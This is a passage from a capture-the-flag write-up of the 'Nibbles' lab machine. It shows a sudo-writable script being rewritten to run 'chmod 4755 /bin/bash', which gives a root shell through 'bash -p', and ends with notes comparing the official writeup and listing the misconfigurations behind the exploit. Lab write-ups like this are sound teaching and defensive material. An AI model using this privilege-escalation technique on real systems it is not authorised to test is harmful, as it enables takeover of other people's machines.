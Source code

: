 So everyone can read, write and execute this script. And we can execute it with sudo without needing a password. Easy.

Let’s modify the script to run some privilege escalation:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
#!/bin/bash

chmod 4755 /bin/bash
``` 

This simply changes the permissions for bash so that everyone can execute it.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

It times out after running, but let’s check if we can use bash:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3
```

And we got it.

## Comparing myself to the official writeup:

The official writeup pretty much used the same methods I did, except they guessed the password without using cewl. They also just created their own monitor.sh file instead of extracting and modifying the existing one.


## How to stop this exploit:

There was quite a bit wrong with this one.
At first, the nibbleblog was not even accessible unless you viewed the source code of a pretty muhc empty page. After this, the user information was publicly available just by looking around in the directories.And after this the password was easily guessable. After this the user of the machine has write access to a sudo shell script. Which pretty much gives the user full sudo control.
